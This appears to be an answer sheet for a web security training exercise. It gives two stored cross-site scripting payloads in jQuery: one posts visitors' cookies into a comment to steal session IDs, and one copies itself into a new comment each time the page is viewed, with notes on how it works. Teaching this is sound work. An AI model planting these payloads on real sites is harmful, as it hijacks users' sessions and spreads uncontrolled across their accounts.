 Answer Sheet
============

Using Javascript to steal the session ID
----------------------------------------

.. code:: javascript

  <script>
    jQuery.post(
      "?page=comment.php",
      {
        "article_id": 1,
        "body": "My cookies are: " + document.cookie
      }
    )
  </script>


Extension Challenge
----------------------------------------

.. code:: javascript

  This comment will be shared automatically by every user
  who views the page...!

  <script class="evil-script">
    jQuery.post(
      "?page=comment.php",
      {
        "article_id": 1,
        "body": $(".evil-script").first().parent().html()
      }
    )
  </script>

* ``.first()`` is used to get only the first occurrence of the script,
in case the page contains other scripts (or many copies of the script).

* ``.parent()`` is used to get the container of the comment, which
includes both the script and the rest of the text of the comment.

* ``.html()`` is used to get the source code of the tag, including
its content (the Javascript code).
